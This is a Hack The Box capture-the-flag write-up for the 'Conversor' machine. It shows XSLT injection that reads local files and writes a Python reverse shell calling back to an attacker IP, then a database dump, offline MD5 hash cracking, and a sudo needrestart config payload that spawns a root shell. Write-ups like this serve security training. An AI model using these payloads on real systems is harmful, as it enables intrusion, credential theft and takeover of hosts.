# HTB — Conversor — Full Writeup (EN)

**Author:** Daniel

**Machine:** Conversor (HTB)

**Difficulty:** Medium


---

## TL;DR

The application allows uploading an XML and an XSLT. The server parses XSLT without secure parser options, enabling full XSLT injection (use of `document()` and EXSLT). Using this, a remote attacker can read local files, write files, and obtain code execution leading to a reverse shell. From there, local database artifacts were stolen, hashes cracked, SSHed into a user, and a sudo NOPASSWD misconfiguration (`/usr/sbin/needrestart`) was used to achieve root. This document includes full payloads and artifacts for private use only.


---

## 1) Recon

Initial nmap scan:

```bash
nmap -sC -sV -T4 10.129.78.76
# Found:
# 22/tcp open ssh OpenSSH
# 80/tcp open http Apache
```





Added `10.129.78.76 conversor.htb` to `/etc/hosts` and browsed to `http://conversor.htb`.





Used gobuster to enumerate directories and found `/about` with a source code download.






## 2) Download & Source Review

Downloaded source archive from `/about` and extracted. Relevant files:

```
app.py
instance/users.db
uploads/
templates/
static/
```





Important snippet in `app.py`:

```py
parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)
xml_tree = etree.parse(xml_path, parser)
xslt_tree = etree.parse(xslt_path)    # <-- insecure: no parser args
transform = etree.XSLT(xslt_tree)
```





**Analysis:** XML was parsed using a secure parser (no network, no external entities), but XSLT was parsed without those protections. This allows attacker-supplied XSLT to use features like `document()` or EXSLT extension elements (e.g., `exsl:document`) to access local files or network resources.


## 3) XSLT Injection — Proof of Concept (read `/etc/passwd`)

Create `payload.xml` (simple XML):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root/>
```


Create `xslt_read_passwd.xslt`:

```xml
<?xml version="1.0"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" encoding="utf-8"/>
  <xsl:template match="/">
    <html><body><pre>
      <xsl:for-each select="document('file:///etc/passwd')">
        <xsl:value-of select="."/>
      </xsl:for-each>
    </pre></body></html>
  </xsl:template>
</xsl:stylesheet>
```


Upload both files to `/convert` (authenticated). The server saves uploaded files and performs an XSLT transform. The result is written to `uploads/<uuid>.html`. Accessing that file shows the content of `/etc/passwd`.





## 4) XSLT — Write file / Reverse Shell

Using EXSLT's `exsl:document` or other writable endpoints, it's possible to write files. Example XSLT that attempts to write a Python reverse shell (targeted at the lab environment):

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl">
<xsl:template match="/">
<exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import socket,os,pty
s=socket.socket()
s.connect(("10.10.14.138",8080))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
</exsl:document>
Done
</xsl:template>
</xsl:stylesheet>
```


Notes:
- The exact writable path may vary. In this lab, uploads are stored under the web root and writing to `/var/www/conversor.htb/` succeeded.
- Start a listener locally: `nc -lnvp 8080` and trigger transform by uploading the XSLT; you should get a reverse connection if the server can open outgoing connections.





## 5) Foothold & pivot

Received a shell as `www-data` after the reverse connection. From this shell:

```bash
# move to web root
cd /var/www/conversor.htb
ls -la
cd instance
ls -la
sqlite3 users.db
sqlite> .tables
sqlite> SELECT * FROM users;
# output example:
# 1|fismathack|[md5hash]
# 5|test|[md5hash]
```





Saved the hash and cracked it offline using `hashcat` with `rockyou` wordlist (MD5):

```bash
echo 'md5hash' > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
# cracked: PASSWORD
```


Use the credential to SSH into the box:

```bash
ssh fismathack@10.129.78.76
# then read user.txt
cat /home/fismathack/user.txt
# user flag: 6f607XXXXXXXXXXXXXXXX
```





## 6) Privilege Escalation — needrestart

As `fismathack`, run `sudo -l` to list sudo privileges. The output showed:

```
(ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```


`needrestart` is a tool that checks which daemons need to be restarted after library updates. In some versions / configurations it evaluates config content or uses Perl in a way that can be abused if a user can control configuration files. In this lab, a crafted config file was used to achieve code execution as root. Example steps used (lab-specific):

```bash
# create config dir and file
mkdir -p ~/.config/needrestart
# write a line that triggers execution - lab-specific payload
echo 'system("/bin/bash");' > ~/.config/needrestart/needrestart.conf
# run needrestart as root via sudo
sudo /usr/sbin/needrestart -c ~/.config/needrestart/needrestart.conf
# becomes root
whoami
# root
cat /root/root.txt
# root flag: 1e527XXXXXXXXXXXXXXXXXXXXX
```





## 7) Artifacts & notes

- `payload.xml`, `xslt_read_passwd.xslt`, `exploit.xslt` (reverse shell) used during testing.

- `instance/users.db` dumped (local copy retained offline).

- `shell.py` reverse shell script written to web root in lab.


> **WARNING:** This document contains sensitive payloads and should be kept private. Do NOT publish this file or its contents in a public repository. Treat it as confidential lab notes.
